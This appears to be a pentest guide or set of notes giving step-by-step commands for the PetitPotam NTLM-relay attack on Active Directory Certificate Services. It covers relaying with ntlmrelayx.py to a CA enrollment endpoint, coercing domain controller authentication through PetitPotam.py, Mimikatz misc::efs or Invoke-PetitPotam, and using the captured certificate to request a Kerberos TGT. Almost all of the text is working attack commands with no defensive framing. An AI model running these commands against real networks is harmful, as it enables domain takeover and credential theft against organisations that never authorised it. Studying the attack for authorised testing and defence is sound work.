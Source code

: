

#### **Exploitation Methods**



##### **1. Using PetitPotam.py**
1. **Start NTLM Relaying:**
   - Run ntlmrelayx.py on the attack host to target the CA Web Enrollment URL:
     ```bash
     sudo ntlmrelayx.py -debug -smb2support --target http://<CA_Host>/certsrv/certfnsh.asp --adcs --template DomainController
     ```

2. **Trigger Authentication with PetitPotam:**
   - Use PetitPotam to coerce the DC to authenticate to the attacker's NTLM relay server:
     ```bash
     python3 PetitPotam.py <attack_host_IP> <DC_IP>
     ```



##### **2. Using Mimikatz**
Mimikatz includes the ability to coerce DC authentication using its **EFS module**.

1. **Command to Coerce Authentication:**
   Run the following command from Mimikatz:
   ```bash
   misc::efs /server:<DC_IP> /connect:<attack_host_IP>
   ```

   - **/server:** IP or hostname of the Domain Controller.
   - **/connect:** IP or hostname of the attacker’s NTLM relay server.

2. **Expected Result:**
   - Mimikatz forces the DC to connect to the attacker's relay server.
   - If ntlmrelayx.py is running on the attack host, it captures the authentication and requests a certificate.



##### **3. Using PowerShell**
Alternatively, a PowerShell implementation of PetitPotam (`Invoke-PetitPotam.ps1`) can also be used to achieve the same result.

1. **Trigger Authentication:**
   - From a PowerShell session:
     ```powershell
     Invoke-PetitPotam -Target <DC_IP> -AttackerIP <attack_host_IP>
     ```



##### **Post-Authentication Steps**

1. **Captured Certificate:**
   - If successful, ntlmrelayx.py captures a Base64-encoded certificate for the targeted DC.

2. **Request a TGT Using PKINIT:**
   - Use gettgtpkinit.py to request a TGT with the captured certificate:
     ```bash
     python3 /opt/PKINITtools/gettgtpkinit.py <domain>/<DC_machine_account>$ -pfx-base64 <Base64_Certificate> <output_file>
     ```
